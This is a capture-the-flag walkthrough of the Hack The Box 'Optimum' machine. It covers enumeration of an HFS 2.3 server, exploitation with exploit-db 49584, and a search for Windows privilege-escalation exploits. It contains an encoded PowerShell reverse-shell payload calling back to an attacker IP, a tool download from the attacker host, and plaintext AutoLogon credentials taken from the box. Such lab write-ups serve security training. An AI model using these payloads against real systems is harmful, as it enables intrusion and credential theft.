

# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.144.204

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 11:53 BST
Nmap scan report for 10.129.144.204
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 274.38 seconds
"
```

```bash
nmap -p 80 -sC -sV 10.129.144.204

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 11:59 BST
Nmap scan report for 10.129.144.204
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.15 seconds
"
```

## **View Website**


## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.144.204/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.144.204/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/08 12:00:52 Starting gobuster in directory enumeration mode
===============================================================
/favicon.ico          (Status: 200) [Size: 576]
                                               
===============================================================
2023/10/08 12:03:26 Finished
===============================================================
"
```

Nothing special found here

# Exploitation

## Searching for Website Exploit

```bash
searchsploit hfs

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Apple Mac OSX 10.4.8 - DMG HFS+ DO_HFS_TRUNCA | osx/dos/29454.txt
Apple Mac OSX 10.6 - HFS FileSystem (Denial o | osx/dos/12375.c
Apple Mac OSX 10.6.x - HFS Subsystem Informat | osx/local/35488.c
Apple Mac OSX xnu 1228.x - 'hfs-fcntl' Kernel | osx/local/8266.sh
FHFS - FTP/HTTP File Server 2.1.2 Remote Comm | windows/remote/37985.py
HFS (HTTP File Server) 2.3.x - Remote Command | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer  | multiple/remote/48569.py
Linux Kernel 2.6.x - SquashFS Double-Free Den | linux/dos/28895.txt
Rejetto HTTP File Server (HFS) - Remote Comma | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Mult | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbi | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c | windows/webapps/34852.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

When we view the website, the server information section contains the version which is 2.3

```bash
searchsploit -x 49584

"
  Exploit: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49584
     Path: /usr/share/exploitdb/exploits/windows/remote/49584.py
    Codes: N/A
 Verified: False
File Type: ASCII text, with very long lines
"
```

## Copy and Configure Exploit

```bash
cp /usr/share/exploitdb/exploits/windows/remote/49584.py .

# Change LHOST, RHOST, LPORT (optional)
vi 49584.py
```

## Exploit

```bash
python 49584.py 

"
Encoded the command in base64 format...

Encoded the payload and sent a HTTP GET request to the target...

Printing some information for debugging...
lhost:  10.10.14.74
lport:  4444
rhost:  10.129.144.204
rport:  80
payload:  exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwA0ACIALAA0ADQANAA0ACkAOwAgACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7ACAAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwAgAHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAwACwAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAIAAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACQAaQApADsAIAAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAgACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgARwBlAHQALQBMAG8AYwBhAHQAaQBvAG4AKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACAAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAgACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAgACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAgACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==

Listening for connection...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.144.204.
Ncat: Connection from 10.129.144.204:49166.
whoami /user

USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
optimum\kostas S-1-5-21-605891470-2991919448-81205106-1001
PS C:\Users\kostas\Desktop>
"
```

# Privilege Escalation

## Enumerating Privilege Escalation using WinPEAS

[](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat)

```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

### winPEAS Result

```powershell
Invoke-WebRequest -URI http://10.10.14.74:8000/winPEAS.exe -OutFile C:\temp\winPEAS.exe
.\winPEAS.exe

"
???????????? Current Token privileges
? Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED

???????????? Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

???????????? Print Logon Sessions
    Method:                       WMI
    Logon Server:                 
    Logon Server Dns Domain:      
    Logon Id:                     329866
    Logon Time:                   
    Logon Type:                   Interactive
    Start Time:                   14/10/2023 10:50:44 ??
    Domain:                       OPTIMUM
    Authentication Package:       NTLM
    Start Time:                   14/10/2023 10:50:44 ??
    User Name:                    kostas
    User Principal Name:          
    User SID:                     

   =================================================================================================

???????????? IE history -- limit 50

    https://sourceforge.net/projects/hfs/?source=typ_redirect
    https://www.exploit-db.com/download/39719
    http://10.10.11.2/meter.exe
    http://go.microsoft.com/fwlink/p/?LinkId=255141

PS C:\temp>
"
```

There’s the credential for `kostas` , the user that we are logged in. Also we can find some interesting web browser history like `https://www.exploit-db.com/download/39719`, which is the exploit that we are going to use! Overall, there’s nothing that we gained here (Let’s exclude the IE History)

## Using Kernel Exploit

### Getting Systeminfo and Saving the file as systeminfo.txt

```powershell
systeminfo

"
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          14/10/2023, 10:50:29 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2394 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.481 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.679 MB
Virtual Memory: In Use:    824 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.144.204
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
"

```

Save the above text as systeminfo.txt (Without the command)

### Install and execute wes-ng

```powershell
pip3 install wesng
wes --update # Update the exploit
wes systeminfo.txt -o out.csv # Input the systeminfo file and output the available exploit in csv file
```

### Search for Privilege Escalation Kernel Exploit

```bash
cat out.csv | grep 'Privilege' | grep '12' | grep 'exploit-db'

'
"20150908","CVE-2015-2528","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38201/"
"20150908","CVE-2015-2528","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38201/"
"20150908","CVE-2015-2528","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38201/"
"20150908","CVE-2015-2528","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38201/"
"20161011","CVE-2016-0073","3192392","Security Update for Windows Registry","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40574/"
"20161213","CVE-2016-0073","3185331","Windows Kernel Local Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Registry","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40574/"
"20161213","CVE-2016-0073","3192392","Windows Kernel Local Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Registry","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40574/"
"20150714","CVE-2015-2370","3067505","Vulnerability in Windows Remote Procedure Call Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37768/"
"20150714","CVE-2015-2370","3067505","Vulnerability in Windows Remote Procedure Call Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37768/"
"20150113","CVE-2015-0016","3019978","Vulnerability in Windows Components Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","http://packetstormsecurity.com/files/130201/MS15-004-Microsoft-Remote-Desktop-Services-Web-Proxy-IE-Sandbox-Escape.html, http://blog.trendmicro.com/trendlabs-security-intelligence/cve-2015-0016-escaping-the-internet-explorer-sandbox/, http://www.exploit-db.com/exploits/35983"
"20150113","CVE-2015-0016","3019978","Vulnerability in Windows Components Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","http://packetstormsecurity.com/files/130201/MS15-004-Microsoft-Remote-Desktop-Services-Web-Proxy-IE-Sandbox-Escape.html, http://blog.trendmicro.com/trendlabs-security-intelligence/cve-2015-0016-escaping-the-internet-explorer-sandbox/, http://www.exploit-db.com/exploits/35983"
"20160308","CVE-2016-0099","3139914","Security Update for Secondary Logon to Address Elevation of Privile","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39809/, https://www.exploit-db.com/exploits/39719/, https://www.exploit-db.com/exploits/40107/, https://www.exploit-db.com/exploits/39574/"
"20161011","CVE-2016-7185","3192392","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40572/"
"20161213","CVE-2016-7185","3185331","Win32k Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel-Mode Drivers","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40572/"
"20161213","CVE-2016-7185","3192392","Win32k Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel-Mode Drivers","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40572/"
"20150908","CVE-2015-2525","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38200/"
"20150908","CVE-2015-2525","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38200/"
"20150908","CVE-2015-2525","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38200/"
"20150908","CVE-2015-2525","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38200/"
"20180103","CVE-2018-0749","4056898","SMB Server Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows SMB Server","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/43517/"
"20161011","CVE-2016-0075","3192392","Security Update for Windows Registry","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40573/"
"20161213","CVE-2016-0075","3185331","Windows Kernel Local Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Registry","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40573/"
"20161213","CVE-2016-0075","3192392","Windows Kernel Local Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Registry","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40573/"
"20160614","CVE-2016-3219","3164035","Security Update for Microsoft Graphics Component","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39993/"
"20160614","CVE-2016-3219","3164035","Security Update for Microsoft Graphics Component","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39993/"
"20161011","CVE-2016-3388","3185331","Microsoft Browser Elevation of Privilege Vulnerability","Internet Explorer 11 on Windows Server 2012 R2","Microsoft Browsers","Low","Elevation of Privilege","https://www.exploit-db.com/exploits/40606/"
"20161011","CVE-2016-3388","3192392","Microsoft Browser Elevation of Privilege Vulnerability","Internet Explorer 11 on Windows Server 2012 R2","Microsoft Browsers","Low","Elevation of Privilege","https://www.exploit-db.com/exploits/40606/"
"20181009","CVE-2018-8411","4462941","NTFS Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/45624/"
"20161011","CVE-2016-0079","3192392","Security Update for Windows Registry","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40608/"
"20161108","CVE-2016-7226","3197873","Security Update to Microsoft Virtual Hard Drive","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40763/"
"20160510","CVE-2016-0171","3156017","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39959/"
"20160510","CVE-2016-0171","3156017","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39959/"
"20190108","CVE-2019-0555","4487028","Microsoft XmlDocument Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft XML","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46185/"
"20190108","CVE-2019-0555","4487028","Microsoft XmlDocument Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft XML","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46185/"
"20190108","CVE-2019-0555","4487028","Microsoft XmlDocument Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft XML","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46185/"
"20190108","CVE-2019-0555","4487028","Microsoft XmlDocument Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft XML","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46185/"
"20190409","CVE-2019-0805","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46717/"
"20190409","CVE-2019-0805","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46717/"
"20190409","CVE-2019-0805","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46717/"
"20190409","CVE-2019-0805","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46717/"
"20180508","CVE-2018-8134","4103715","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/44630/"
"20161108","CVE-2016-7225","3197873","Security Update to Microsoft Virtual Hard Drive","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40764/"
"20160913","CVE-2016-3371","3175024","Security Update for Windows Kernel","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40429/"
"20160913","CVE-2016-3371","3175024","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40429/"
"20181004","CVE-2018-8468","4457143","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Issuing CNA","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/45502/"
"20170411","CVE-2017-0165","4015547","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/41901/"
"20190108","CVE-2019-0543","4480964","Microsoft Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46156/"
"20190108","CVE-2019-0543","4480964","Microsoft Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46156/"
"20190108","CVE-2019-0543","4480964","Microsoft Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46156/"
"20190108","CVE-2019-0543","4480964","Microsoft Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46156/"
"20190108","CVE-2019-0570","4480964","Windows Runtime Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46184/"
"20190108","CVE-2019-0570","4480964","Windows Runtime Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46184/"
"20190108","CVE-2019-0570","4480964","Windows Runtime Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46184/"
"20190108","CVE-2019-0570","4480964","Windows Runtime Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46184/"
"20161011","CVE-2016-3387","3185331","Microsoft Browser Elevation of Privilege Vulnerability","Internet Explorer 11 on Windows Server 2012 R2","Microsoft Browsers","Low","Elevation of Privilege","https://www.exploit-db.com/exploits/40607/"
"20161011","CVE-2016-3387","3192392","Microsoft Browser Elevation of Privilege Vulnerability","Internet Explorer 11 on Windows Server 2012 R2","Microsoft Browsers","Low","Elevation of Privilege","https://www.exploit-db.com/exploits/40607/"
"20190409","CVE-2019-0735","4493467","Windows CSRSS Elevation of Privilege Vulnerability","Windows Server 2012 R2","CSRSS","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46712/"
"20190409","CVE-2019-0735","4493467","Windows CSRSS Elevation of Privilege Vulnerability","Windows Server 2012 R2","CSRSS","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46712/"
"20190409","CVE-2019-0735","4493467","Windows CSRSS Elevation of Privilege Vulnerability","Windows Server 2012 R2","CSRSS","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46712/"
"20190409","CVE-2019-0735","4493467","Windows CSRSS Elevation of Privilege Vulnerability","Windows Server 2012 R2","CSRSS","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46712/"
"20180122","CVE-2018-0752","4056898","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/43516/"
"20180103","CVE-2018-0744","4056898","Windows Kernel Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/43446/"
"20160614","CVE-2016-3223","3159398","Group Policy Elevation of Privilege Vulnerability","Windows Server 2012 R2","Group Policy","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40219/"
"20190108","CVE-2019-0552","4480964","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46162/"
"20190108","CVE-2019-0552","4480964","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46162/"
"20190108","CVE-2019-0552","4480964","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46162/"
"20190108","CVE-2019-0552","4480964","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46162/"
"20150512","CVE-2015-1701","3045171","Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37049/, https://www.exploit-db.com/exploits/37367/"
"20150512","CVE-2015-1701","3045171","Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37049/, https://www.exploit-db.com/exploits/37367/"
"20170411","CVE-2017-0211","4015547","Windows OLE Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/41902/"
"20161108","CVE-2016-7255","3197873","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40823/, https://www.exploit-db.com/exploits/41015/, https://www.exploit-db.com/exploits/40745/"
"20161213","CVE-2016-7255","3197874","Win32k Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel-Mode Drivers","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40823/, https://www.exploit-db.com/exploits/41015/, https://www.exploit-db.com/exploits/40745/"
"20161213","CVE-2016-7255","3197873","Win32k Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel-Mode Drivers","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40823/, https://www.exploit-db.com/exploits/41015/, https://www.exploit-db.com/exploits/40745/"
"20170511","CVE-2017-0214","4019213","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/42021/"
"20180122","CVE-2018-0748","4056898","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/43514/"
"20160809","CVE-2016-3237","3192392","Security Update for Windows Authentication Methods","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40409/"
"20190409","CVE-2019-0730","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46713/"
"20190409","CVE-2019-0730","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46713/"
"20190409","CVE-2019-0730","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46713/"
"20190409","CVE-2019-0730","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46713/"
"20160913","CVE-2016-3373","3175024","Security Update for Windows Kernel","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40430/"
"20160913","CVE-2016-3373","3175024","Windows Kernel Local Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40430/"
"20161108","CVE-2016-7224","3197873","Security Update to Microsoft Virtual Hard Drive","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40765/"
